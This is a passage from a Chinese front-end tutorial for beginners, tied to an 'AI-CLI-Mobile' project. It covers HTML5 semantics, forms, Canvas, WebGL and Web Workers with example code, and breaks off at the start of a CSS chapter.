# Web 前端基础技术

> 📖 本篇是学习指南的第十一篇，面向初级程序员，从零开始系统讲解 Web 前端的核心基础技术。
> 阅读本篇后，你将理解：HTML5 语义化、CSS3 现代布局、浏览器 API、DOM 操作、性能优化、安全防护、构建工具和 PWA 技术。
> 本篇内容紧密结合 AI-CLI-Mobile 项目实际代码，所有示例均来自真实项目场景。

---

## 目录

- [第一章：HTML5 基础](#第一章html5-基础)
- [第二章：CSS3 现代布局](#第二章css3-现代布局)
- [第三章：浏览器 API](#第三章浏览器-api)
- [第四章：DOM 操作与事件](#第四章dom-操作与事件)
- [第五章：Web 性能优化](#第五章web-性能优化)
- [第六章：Web 安全基础](#第六章web-安全基础)
- [第七章：构建工具](#第七章构建工具)
- [第八章：PWA 技术](#第八章pwa-技术)

---

# 第一章：HTML5 基础

## 1.1 什么是 HTML？

HTML（HyperText Markup Language，超文本标记语言）是构建网页的骨架。如果说一个网页是一座房子，那么 HTML 就是它的墙壁、柱子和框架——它定义了页面上有什么内容，以及这些内容的结构。

### HTML 的发展历史



### 一个最简单的 HTML 页面

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>我的第一个网页</title>
</head>
<body>
    <h1>你好，世界！</h1>
    <p>这是一个段落。</p>
</body>
</html>
```

让我们逐行解析：

| 代码 | 含义 |
|------|------|
| `<!DOCTYPE html>` | 告诉浏览器"这是一个 HTML5 文档" |
| `<html lang="zh-CN">` | 根元素，`lang` 属性指定语言为简体中文 |
| `<head>` | 文档的"头部"，存放浏览器需要的元信息 |
| `<meta charset="UTF-8">` | 指定字符编码为 UTF-8（支持中文） |
| `<meta name="viewport" ...>` | 移动端视口设置（后面详解） |
| `<title>` | 页面标题，显示在浏览器标签栏 |
| `<body>` | 文档的"身体"，存放用户可见的内容 |
| `<h1>` | 一级标题 |
| `<p>` | 段落 |

## 1.2 语义化标签

### 什么是语义化？

**语义化**就是用正确的标签表达正确的含义。比如，一段文字是标题就用 `<h1>`-`<h6>`，是段落就用 `<p>`，是导航就用 `<nav>`。

**为什么语义化很重要？**



### HTML5 新增语义化标签

在 HTML5 之前，开发者大量使用 `<div>` 来组织页面结构：

```html
<!-- ❌ 不好的做法：全部用 div -->
<div id="header">...</div>
<div id="nav">...</div>
<div id="main">
    <div class="article">...</div>
    <div class="sidebar">...</div>
</div>
<div id="footer">...</div>
```

HTML5 引入了专门的语义化标签：

```html
<!-- ✅ 好的做法：使用语义化标签 -->
<header>...</header>
<nav>...</nav>
<main>
    <article>...</article>
    <aside>...</aside>
</main>
<footer>...</footer>
```

### 常用语义化标签详解

| 标签 | 用途 | 使用场景 |
|------|------|----------|
| `<header>` | 页面或区块的头部 | 网站头部、文章头部 |
| `<nav>` | 导航链接区域 | 主导航、面包屑、分页 |
| `<main>` | 页面主要内容 | 每个页面只有一个 |
| `<article>` | 独立的内容单元 | 博客文章、新闻、评论 |
| `<section>` | 主题性分组 | 章节、标签页内容 |
| `<aside>` | 辅助内容 | 侧边栏、广告、相关链接 |
| `<footer>` | 页面或区块的底部 | 版权信息、联系方式 |
| `<figure>` | 独立的流内容 | 图片、图表、代码块 |
| `<figcaption>` | figure 的标题 | 图片说明文字 |
| `<time>` | 日期/时间 | 发布时间、事件时间 |
| `<mark>` | 高亮文本 | 搜索结果关键字高亮 |
| `<details>` | 可展开/折叠的内容 | FAQ、帮助文档 |
| `<summary>` | details 的标题 | 可点击的展开标题 |

### 完整页面结构示例

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>AI-CLI-Mobile - 终端界面</title>
    <meta name="description" content="移动端 AI 编程助手">
</head>
<body>
    <!-- 页面头部：Logo + 导航 -->
    <header>
        <h1>AI-CLI-Mobile</h1>
        <nav aria-label="主导航">
            <ul>
                <li><a href="/">首页</a></li>
                <li><a href="/terminal">终端</a></li>
                <li><a href="/files">文件</a></li>
                <li><a href="/settings">设置</a></li>
            </ul>
        </nav>
    </header>

    <!-- 主要内容区 -->
    <main>
        <!-- 一个独立的文章 -->
        <article>
            <header>
                <h2>如何使用终端</h2>
                <time datetime="2024-01-15">2024年1月15日</time>
            </header>
            <section>
                <h3>连接服务器</h3>
                <p>首先，你需要配置服务器地址...</p>
                <figure>
                    
                    <figcaption>图1：终端主界面</figcaption>
                </figure>
            </section>
            <section>
                <h3>执行命令</h3>
                <p>连接成功后，你可以直接输入命令...</p>
            </section>
            <footer>
                <p>作者：<mark>AI-CLI-Mobile 团队</mark></p>
            </footer>
        </article>

        <!-- 侧边栏 -->
        <aside>
            <h3>相关链接</h3>
            <ul>
                <li><a href="/docs">文档中心</a></li>
                <li><a href="/faq">常见问题</a></li>
            </ul>
        </aside>
    </main>

    <!-- 页面底部 -->
    <footer>
        <p>&copy; 2024 AI-CLI-Mobile. 保留所有权利。</p>
        <details>
            <summary>技术栈</summary>
            <p>Vue 3 + TypeScript + Vite</p>
        </details>
    </footer>
</body>
</html>
```

### 语义化标签的无障碍支持

语义化标签对屏幕阅读器（Screen Reader）至关重要：



**ARIA（Accessible Rich Internet Applications）** 属性为语义化提供补充：

```html
<!-- 导航区域 -->
<nav aria-label="主导航">
    <ul role="menubar">
        <li role="menuitem"><a href="/">首页</a></li>
        <li role="menuitem"><a href="/about">关于</a></li>
    </ul>
</nav>

<!-- 搜索框 -->
<form role="search" aria-label="站内搜索">
    <input type="search" aria-label="搜索关键词" placeholder="搜索...">
    <button type="submit">搜索</button>
</form>

<!-- 加载状态 -->
<div role="status" aria-live="polite">
    正在加载...
</div>

<!-- 错误提示 -->
<div role="alert" aria-live="assertive">
    连接失败，请检查网络。
</div>
```

## 1.3 表单与输入

表单是用户与网页交互的核心方式。HTML5 大幅增强了表单功能。

### 基础表单元素

```html
<form action="/api/login" method="POST">
    <!-- 文本输入 -->
    <label for="username">用户名：</label>
    <input type="text" id="username" name="username" 
           required minlength="3" maxlength="20"
           placeholder="请输入用户名">
    
    <!-- 密码输入 -->
    <label for="password">密码：</label>
    <input type="password" id="password" name="password"
           required minlength="8"
           placeholder="请输入密码">
    
    <!-- 邮箱输入 -->
    <label for="email">邮箱：</label>
    <input type="email" id="email" name="email"
           required placeholder="your@email.com">
    
    <!-- 提交按钮 -->
    <button type="submit">登录</button>
</form>
```

### HTML5 新增 input 类型

| 类型 | 用途 | 移动端键盘 | 示例 |
|------|------|-----------|------|
| `text` | 普通文本 | 标准键盘 | `<input type="text">` |
| `password` | 密码 | 标准键盘（隐藏输入） | `<input type="password">` |
| `email` | 邮箱 | 带 @ 的键盘 | `<input type="email">` |
| `tel` | 电话号码 | 数字键盘 | `<input type="tel">` |
| `url` | 网址 | 带 .com 的键盘 | `<input type="url">` |
| `number` | 数字 | 纯数字键盘 | `<input type="number">` |
| `range` | 滑块 | 无需键盘 | `<input type="range" min="0" max="100">` |
| `date` | 日期选择器 | 日期选择 UI | `<input type="date">` |
| `time` | 时间选择器 | 时间选择 UI | `<input type="time">` |
| `datetime-local` | 日期时间 | 日期时间 UI | `<input type="datetime-local">` |
| `color` | 颜色选择器 | 颜色选择 UI | `<input type="color">` |
| `search` | 搜索框 | 带搜索按钮 | `<input type="search">` |
| `file` | 文件上传 | 文件选择器 | `<input type="file">` |

### 移动端优化的表单设计

在 AI-CLI-Mobile 项目中，表单设计需要特别考虑移动端体验：

```html
<!-- 服务器连接配置表单 -->
<form id="server-config" class="mobile-form">
    <!-- 服务器地址：URL 键盘 -->
    <div class="form-group">
        <label for="server-url">服务器地址</label>
        <input type="url" id="server-url" 
               name="serverUrl"
               placeholder="https://your-server.com"
               inputmode="url"
               autocomplete="url"
               required>
        <span class="hint">输入服务器的完整地址</span>
    </div>
    
    <!-- 端口号：数字键盘 -->
    <div class="form-group">
        <label for="port">端口</label>
        <input type="number" id="port" 
               name="port"
               inputmode="numeric"
               pattern="[0-9]*"
               min="1" max="65535"
               value="3000"
               required>
    </div>
    
    <!-- API Token：密码输入 -->
    <div class="form-group">
        <label for="token">API Token</label>
        <input type="password" id="token" 
               name="token"
               autocomplete="current-password"
               required>
        <button type="button" class="toggle-password" 
                aria-label="显示密码">
            👁
        </button>
    </div>
    
    <!-- 语言选择 -->
    <div class="form-group">
        <label for="language">编程语言</label>
        <select id="language" name="language">
            <option value="auto">自动检测</option>
            <option value="javascript">JavaScript</option>
            <option value="python">Python</option>
            <option value="go">Go</option>
            <option value="rust">Rust</option>
        </select>
    </div>
    
    <!-- 主题选择：单选按钮组 -->
    <fieldset>
        <legend>终端主题</legend>
        <label>
            <input type="radio" name="theme" value="dark" checked>
            深色
        </label>
        <label>
            <input type="radio" name="theme" value="light">
            浅色
        </label>
    </fieldset>
    
    <!-- 功能开关：复选框 -->
    <div class="form-group">
        <label>
            <input type="checkbox" name="autoConnect" checked>
            自动重连
        </label>
    </div>
    
    <button type="submit" class="btn-primary">连接</button>
</form>
```

### 表单验证

HTML5 提供了内置的表单验证机制：

```javascript
// 表单验证示例
const form = document.getElementById('server-config');

// 方法1：使用约束验证 API
form.addEventListener('submit', (event) => {
    // 阻止默认提交行为
    event.preventDefault();
    
    // 检查整体有效性
    if (!form.checkValidity()) {
        // 触发浏览器默认的验证 UI
        form.reportValidity();
        return;
    }
    
    // 获取表单数据
    const formData = new FormData(form);
    const data = Object.fromEntries(formData.entries());
    console.log('表单数据：', data);
    
    // 提交到服务器
    submitToServer(data);
});

// 方法2：自定义验证
const serverUrl = document.getElementById('server-url');

serverUrl.addEventListener('input', () => {
    if (serverUrl.validity.typeMismatch) {
        serverUrl.setCustomValidity('请输入有效的 URL 地址');
    } else if (serverUrl.value && !serverUrl.value.startsWith('https://')) {
        serverUrl.setCustomValidity('出于安全考虑，请使用 HTTPS 协议');
    } else {
        serverUrl.setCustomValidity(''); // 清除自定义错误
    }
});

// 方法3：实时验证反馈
function validateField(input) {
    const errorElement = input.nextElementSibling;
    
    if (input.validity.valid) {
        input.classList.remove('invalid');
        input.classList.add('valid');
        if (errorElement) errorElement.textContent = '';
    } else {
        input.classList.remove('valid');
        input.classList.add('invalid');
        if (errorElement) {
            errorElement.textContent = getErrorMessage(input);
        }
    }
}

function getErrorMessage(input) {
    if (input.validity.valueMissing) return '此字段为必填项';
    if (input.validity.typeMismatch) return '格式不正确';
    if (input.validity.tooShort) return `至少需要 ${input.minLength} 个字符`;
    if (input.validity.tooLong) return `最多 ${input.maxLength} 个字符`;
    if (input.validity.rangeUnderflow) return `不能小于 ${input.min}`;
    if (input.validity.rangeOverflow) return `不能大于 ${input.max}`;
    if (input.validity.patternMismatch) return '格式不符合要求';
    return '输入无效';
}
```

### 表单验证状态图



## 1.4 Canvas 与 WebGL

### Canvas 基础

Canvas 是 HTML5 提供的 2D 绘图 API，它创建了一个可以自由绘制的画布。

```html
<!-- 创建一个 Canvas 元素 -->
<canvas id="myCanvas" width="400" height="300"></canvas>
```

```javascript
// 获取 Canvas 上下文
const canvas = document.getElementById('myCanvas');
const ctx = canvas.getContext('2d');

// ========== 基础图形 ==========

// 1. 画矩形
ctx.fillStyle = '#3498db'; // 填充颜色
ctx.fillRect(10, 10, 150, 100); // x, y, width, height

ctx.strokeStyle = '#e74c3c'; // 边框颜色
ctx.lineWidth = 2;
ctx.strokeRect(170, 10, 150, 100);

// 2. 画圆
ctx.beginPath();
ctx.arc(300, 200, 50, 0, Math.PI * 2); // x, y, radius, startAngle, endAngle
ctx.fillStyle = '#2ecc71';
ctx.fill();
ctx.stroke();

// 3. 画线
ctx.beginPath();
ctx.moveTo(10, 250); // 起点
ctx.lineTo(390, 250); // 终点
ctx.strokeStyle = '#9b59b6';
ctx.lineWidth = 3;
ctx.stroke();

// 4. 画文字
ctx.font = '20px sans-serif';
ctx.fillStyle = '#333';
ctx.textAlign = 'center';
ctx.fillText('Hello Canvas!', 200, 280);

// 5. 画图片
const img = new Image();
img.onload = () => {
    ctx.drawImage(img, 10, 10, 100, 100);
};
img.src = 'logo.png';
```

### Canvas 动画

```javascript
// 弹球动画示例
const canvas = document.getElementById('animationCanvas');
const ctx = canvas.getContext('2d');

// 球的状态
const ball = {
    x: 200,
    y: 150,
    radius: 20,
    vx: 3,  // x 方向速度
    vy: 2,  // y 方向速度
    color: '#e74c3c'
};

function drawBall() {
    ctx.beginPath();
    ctx.arc(ball.x, ball.y, ball.radius, 0, Math.PI * 2);
    ctx.fillStyle = ball.color;
    ctx.fill();
    ctx.closePath();
}

function update() {
    // 清除画布
    ctx.clearRect(0, 0, canvas.width, canvas.height);
    
    // 更新位置
    ball.x += ball.vx;
    ball.y += ball.vy;
    
    // 碰撞检测 - 左右墙壁
    if (ball.x + ball.radius > canvas.width || ball.x - ball.radius < 0) {
        ball.vx = -ball.vx;
    }
    
    // 碰撞检测 - 上下墙壁
    if (ball.y + ball.radius > canvas.height || ball.y - ball.radius < 0) {
        ball.vy = -ball.vy;
    }
    
    // 绘制
    drawBall();
    
    // 请求下一帧
    requestAnimationFrame(update);
}

// 启动动画
requestAnimationFrame(update);
```

### Canvas 绘图流程



### WebGL 基础

WebGL 是基于 OpenGL ES 2.0 的 3D 图形 API，可以在浏览器中渲染 3D 图形。

```javascript
// WebGL 初始化
const canvas = document.getElementById('glCanvas');
const gl = canvas.getContext('webgl');

if (!gl) {
    alert('你的浏览器不支持 WebGL');
    return;
}

// 顶点着色器程序
const vertexShaderSource = `
    attribute vec2 a_position;
    void main() {
        gl_Position = vec4(a_position, 0.0, 1.0);
    }
`;

// 片段着色器程序
const fragmentShaderSource = `
    precision mediump float;
    uniform vec4 u_color;
    void main() {
        gl_FragColor = u_color;
    }
`;

// 编译着色器
function createShader(gl, type, source) {
    const shader = gl.createShader(type);
    gl.shaderSource(shader, source);
    gl.compileShader(shader);
    
    if (!gl.getShaderParameter(shader, gl.COMPILE_STATUS)) {
        console.error('着色器编译错误：', gl.getShaderInfoLog(shader));
        gl.deleteShader(shader);
        return null;
    }
    return shader;
}

// 创建程序
function createProgram(gl, vertexShader, fragmentShader) {
    const program = gl.createProgram();
    gl.attachShader(program, vertexShader);
    gl.attachShader(program, fragmentShader);
    gl.linkProgram(program);
    
    if (!gl.getProgramParameter(program, gl.LINK_STATUS)) {
        console.error('程序链接错误：', gl.getProgramInfoLog(program));
        gl.deleteProgram(program);
        return null;
    }
    return program;
}

// 初始化着色器
const vertexShader = createShader(gl, gl.VERTEX_SHADER, vertexShaderSource);
const fragmentShader = createShader(gl, gl.FRAGMENT_SHADER, fragmentShaderSource);
const program = createProgram(gl, vertexShader, fragmentShader);

// 使用程序
gl.useProgram(program);

// 设置顶点数据（三角形）
const positionBuffer = gl.createBuffer();
gl.bindBuffer(gl.ARRAY_BUFFER, positionBuffer);
gl.bufferData(gl.ARRAY_BUFFER, new Float32Array([
    0.0,  0.5,   // 顶点 1
   -0.5, -0.5,   // 顶点 2
    0.5, -0.5    // 顶点 3
]), gl.STATIC_DRAW);

// 连接顶点数据到着色器
const positionLocation = gl.getAttribLocation(program, 'a_position');
gl.enableVertexAttribArray(positionLocation);
gl.vertexAttribPointer(positionLocation, 2, gl.FLOAT, false, 0, 0);

// 设置颜色
const colorLocation = gl.getUniformLocation(program, 'u_color');
gl.uniform4f(colorLocation, 0.2, 0.6, 1.0, 1.0); // 蓝色

// 绘制
gl.viewport(0, 0, canvas.width, canvas.height);
gl.clearColor(0.0, 0.0, 0.0, 1.0);
gl.clear(gl.COLOR_BUFFER_BIT);
gl.drawArrays(gl.TRIANGLES, 0, 3);
```

### Canvas vs WebGL 对比

| 特性 | Canvas 2D | WebGL |
|------|----------|-------|
| **维度** | 2D | 2D / 3D |
| **性能** | CPU 渲染 | GPU 加速 |
| **API 复杂度** | 简单易用 | 复杂（需要着色器） |
| **适用场景** | 图表、绘图、简单动画 | 3D 游戏、数据可视化、图像处理 |
| **学习曲线** | 低 | 高 |
| **浏览器支持** | 所有浏览器 | 现代浏览器 |
| **硬件加速** | 部分 | 完全 GPU 加速 |

### 在项目中的应用

AI-CLI-Mobile 中的终端渲染就使用了 Canvas：

```typescript
// 终端字符渲染器（简化版）
class TerminalRenderer {
    private canvas: HTMLCanvasElement;
    private ctx: CanvasRenderingContext2D;
    private cellWidth: number;
    private cellHeight: number;
    private cols: number;
    private rows: number;
    
    constructor(container: HTMLElement) {
        this.canvas = document.createElement('canvas');
        container.appendChild(this.canvas);
        this.ctx = this.canvas.getContext('2d')!;
        
        // 计算字符单元格大小
        this.ctx.font = '14px "Fira Code", monospace';
        this.cellWidth = this.ctx.measureText('M').width;
        this.cellHeight = 18; // 行高
        
        this.resize();
    }
    
    resize() {
        const dpr = window.devicePixelRatio || 1;
        const rect = this.canvas.getBoundingClientRect();
        
        // 设置 canvas 物理尺寸（考虑 DPR）
        this.canvas.width = rect.width * dpr;
        this.canvas.height = rect.height * dpr;
        
        // 设置 CSS 尺寸
        this.canvas.style.width = rect.width + 'px';
        this.canvas.style.height = rect.height + 'px';
        
        // 缩放上下文以匹配 DPR
        this.ctx.scale(dpr, dpr);
        
        // 计算列数和行数
        this.cols = Math.floor(rect.width / this.cellWidth);
        this.rows = Math.floor(rect.height / this.cellHeight);
    }
    
    renderLine(row: number, text: string, colors: string[]) {
        const x = 0;
        const y = row * this.cellHeight;
        
        for (let col = 0; col < text.length; col++) {
            const char = text[col];
            const color = colors[col] || '#ffffff';
            
            this.ctx.fillStyle = color;
            this.ctx.fillText(
                char,
                x + col * this.cellWidth,
                y + this.cellHeight - 4 // 基线偏移
            );
        }
    }
    
    clear() {
        this.ctx.fillStyle = '#1e1e1e';
        this.ctx.fillRect(0, 0, this.canvas.width, this.canvas.height);
    }
}
```

## 1.5 Web Workers

Web Workers 允许在后台线程中运行 JavaScript，避免阻塞主线程（UI 线程）。

### 为什么需要 Web Workers？



### 没有 Web Workers 的问题

```javascript
// ❌ 主线程中执行耗时计算
function calculatePrimes(max) {
    const primes = [];
    for (let i = 2; i <= max; i++) {
        let isPrime = true;
        for (let j = 2; j <= Math.sqrt(i); j++) {
            if (i % j === 0) {
                isPrime = false;
                break;
            }
        }
        if (isPrime) primes.push(i);
    }
    return primes;
}

// 计算 1000 万以内的质数
// 这会阻塞 UI 约 2-3 秒，期间页面完全卡死！
const result = calculatePrimes(10000000);
```

### 使用 Web Worker

```javascript
// main.js - 主线程
const worker = new Worker('prime-worker.js');

// 监听 Worker 返回的结果
worker.onmessage = (event) => {
    const { type, data } = event.data;
    
    if (type === 'progress') {
        console.log(`进度：${data.percent}%`);
        updateProgressBar(data.percent);
    } else if (type === 'result') {
        console.log(`找到 ${data.count} 个质数`);
        displayResults(data.primes);
        worker.terminate(); // 用完后终止 Worker
    }
};

// 监听错误
worker.onerror = (error) => {
    console.error('Worker 错误：', error.message);
};

// 发送任务给 Worker
worker.postMessage({ max: 10000000 });
```

```javascript
// prime-worker.js - Worker 线程
self.onmessage = (event) => {
    const { max } = event.data;
    const primes = [];
    
    for (let i = 2; i <= max; i++) {
        let isPrime = true;
        for (let j = 2; j <= Math.sqrt(i); j++) {
            if (i % j === 0) {
                isPrime = false;
                break;
            }
        }
        if (isPrime) {
            primes.push(i);
        }
        
        // 每 10 万次报告一次进度
        if (i % 100000 === 0) {
            self.postMessage({
                type: 'progress',
                data: { percent: Math.round((i / max) * 100) }
            });
        }
    }
    
    // 返回最终结果
    self.postMessage({
        type: 'result',
        data: { primes, count: primes.length }
    });
};
```

### Web Worker 的限制

| 能力 | 主线程 | Web Worker |
|------|--------|-----------|
| DOM 操作 | ✅ | ❌ |
| window 对象 | ✅ | ❌ |
| document 对象 | ✅ | ❌ |
| alert/confirm | ✅ | ❌ |
| XMLHttpRequest | ✅ | ✅ |
| Fetch API | ✅ | ✅ |
| WebSocket | ✅ | ✅ |
| IndexedDB | ✅ | ✅ |
| setTimeout/setInterval | ✅ | ✅ |
| Canvas (OffscreenCanvas) | ✅ | ✅ (需要 transfer) |
| 同源策略 | ✅ | ✅ |
| 嵌套 Worker | ❌ | ✅ |

### 在项目中使用 Worker 处理终端数据

```typescript
// terminal-worker.ts - 处理终端输出的 Worker
import { Terminal } from 'xterm';

interface TerminalMessage {
    type: 'output' | 'resize' | 'input';
    data: string | { cols: number; rows: number };
}

// ANSI 转义序列解析器
class AnsiParser {
    private buffer: string = '';
    private state: 'ground' | 'escape' | 'csi' = 'ground';
    
    parse(data: string): ParsedOutput[] {
        const results: ParsedOutput[] = [];
        
        for (const char of data) {
            switch (this.state) {
                case 'ground':
                    if (char === '\x1b') {
                        this.state = 'escape';
                    } else {
                        results.push({ type: 'text', value: char });
                    }
                    break;
                    
                case 'escape':
                    if (char === '[') {
                        this.state = 'csi';
                        this.buffer = '';
                    } else {
                        this.state = 'ground';
                    }
                    break;
                    
                case 'csi':
                    if (char >= '@' && char <= '~') {
                        // CSI 序列结束
                        results.push({
                            type: 'csi',
                            command: char,
                            params: this.buffer
                        });
                        this.state = 'ground';
                    } else {
                        this.buffer += char;
                    }
                    break;
            }
        }
        
        return results;
    }
}

// 在 Worker 中处理数据
self.onmessage = (event: MessageEvent<TerminalMessage>) => {
    const { type, data } = event.data;
    
    if (type === 'output' && typeof data === 'string') {
        const parser = new AnsiParser();
        const parsed = parser.parse(data);
        
        // 发送解析结果回主线程
        self.postMessage({ type: 'parsed', data: parsed });
    }
};
```

---

# 第二章：CSS3 现代布局

## 2.1 CSS 基础回顾

CSS（Cascading Style Sheets，层叠样式表）负责网页的视觉呈现。如果说 HTML 是骨架，那么 CSS 就是皮肤和衣服。

### CSS 的引入方式

```html
<!-- 方式1：外部样式表（推荐） -->
<link rel="stylesheet" href="styles.css">

<!-- 方式2：内部样式 -->
<style>
    body { color: #333; }
</style>

<!-- 方式3：内联样式（不推荐） -->
<p style="color: red;">红色文字</p>
```

### CSS 选择器优先级



| 选择器 | 示例 | 优先级 |
|--------|------|--------|
